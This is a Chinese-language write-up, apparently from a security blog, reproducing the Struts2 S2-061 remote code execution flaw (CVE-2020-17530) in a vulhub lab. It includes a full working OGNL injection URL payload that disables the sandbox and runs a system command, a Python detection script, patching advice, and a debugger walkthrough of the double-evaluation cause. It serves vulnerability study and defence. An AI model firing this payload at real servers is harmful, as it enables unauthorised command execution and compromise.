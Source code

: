 # Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）复现与利用

## 漏洞概述

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。

CVE-2020-17530是对CVE-2019-0230的绕过，Struts2官方对CVE-2019-0230的修复方式是加强OGNL表达式沙盒，而CVE-2020-17530绕过了该沙盒。在特定的环境下，远程攻击者通过构造恶意的OGNL表达式，可造成任意代码执行。

## 影响版本

Struts 2.0.0 – Struts 2.5.25

## 漏洞复现

### 环境搭建

此处使用了vulhub里面的环境。

![img1.png](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\屏幕截图 2024-04-01 152740.png)

### 漏洞测试

- 检验漏洞是否存在

```
url:8080/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d
```

![屏幕截图 2024-04-01 152658.png](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\屏幕截图 2024-04-01 152658.png)

可以在响应包中发现执行了 2021+20的命令2041.

- 执行系统命令id

```
url:8080/?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27id%27}).(%23res%3d%23exec.exec(%23cmd))}
```

![截图](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\81c3f3809fbe4e6b94b39ac4e5fa2ad6.png)

## 漏洞检测poc

```
# structs.py

import requests

def scan(target_url):
    try:
        headers = {
            'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Mobile Safari/537.36'
        }
        vul_url = target_url + '/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d'
        response = requests.get(vul_url, headers=headers, timeout=10)
        if '2041' in response.text:
            return True
        else:
            return False
    except Exception as e:
        print('[-] 发生错误:', e)
        return False

```

可以使用以下工具来检测漏洞是否存在:https://github.com/hypnoticp/Python_script

![屏幕截图 2024-04-01 152814.png](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\a399a8a4af8854eb73de24e4df5851cf.png)

## 应急与修复建议

- 将Apache Struts框架升级至最新版本
- 排查docker log日志，web访问日志，struts2框架日志

## 漏洞原理

Struts在某些情况下可能存在OGNL表达式注入注入漏洞，如果开发人员使用了%{…}语法，进行强制的OGNL解析，某些特殊的TAG属性可能被双重解析，攻击者可以通过构造恶意的OGNL表达式来利用此漏洞，最终造成远程代码执行。

### 分析

S2-059是Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，导致命令注入。S2-061则是对S2-061的沙盒的绕过,原理一样.

tag标签存在二次解析，说明存在漏洞，那我们可以找到structs2标签解析的入口，也是·本次debug的入口。

![截图](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\d179e36ede9332e83071dc55843c2c75.png)

该漏洞发生在输入的参数被传入到某些标签的id属性中,在传递的过程中struts2进行了如图的两次OGNL解析.导致了命令执行. 我们知道Struts2中的标签解析由org.apache.struts2.views.jsp.ComponentTagSupport的doStartTag方法开始的,所以这两次解析就发生在该方法中. 以下分析使用的payload=%{3*5}.

![截图](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\4f31ae4ebe77b9618095d20734a5c4f6.png)

#### 第一次解析

第一次解析出现在this.populateParams()方法中. 该方法中调用了两次父类的populateParams()方法.在后一次的populateParams()方法中调用了uiBean.setId(this.id);,id为jsp中a标签内的值(%id).

![截图](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\e410928ad5857cb558e345a724f3fa65.png)

该方法内部调用findString()方法.

![截图](579e070d2d3cb81f15a9b02e100b1873.png)

接着又调用findValue()方法,这里省略一部分方法,调用栈如下,一步步跟进发现最终调用OgnlTextParser.evaluate方法.该方法中将%{}解析%{3*5}

#### 第二次解析

第二次解析出现在this.component.start(this.pageContext.getOut());中.跟进该方法.

![截图](430ec2a803e77412fc0e861287f632ec.png)

发现调用父类的start方法.继续跟进:

![截图](7d0c03e410d9057c4452c6df58f2fc3f.png)

现一个evaluateParams方法,翻译过来评估参数.猜想会对参数做某些操作.跟进它:

![截图](c26f2024fc216a0a73d6c39b9e264b59.png)

内部执行populateComponentHtmlId(form);方法.继续跟进:

![截图](954be87e600bbf88bbf450be46d5764e.png)

发现里面调用findStringIfAltSyntax方法.从名称可以判断出如果开启AltSyntax.则调用findValue.跟进看看:

![截图](1092e07c2d572721e1f8a298c50f2fbb.png)

果不其然,我们就找到了该漏洞的另一个条件(除了版本外),必须开启AltSyntax.struts2文档对于AltSyntax说明如下:

```
The altSyntax is an option that can be defined in struts.xml. By default it is set to true and it is strongly recommend you do not change that unless you are upgrading from WebWork 2.1.7 or previous versions.
```

从官方文档中可以看到该AltSyntax设置是默认开启,所以执行findString方法,走的流程就和第一次一样,对id的值再一次OGNL解析.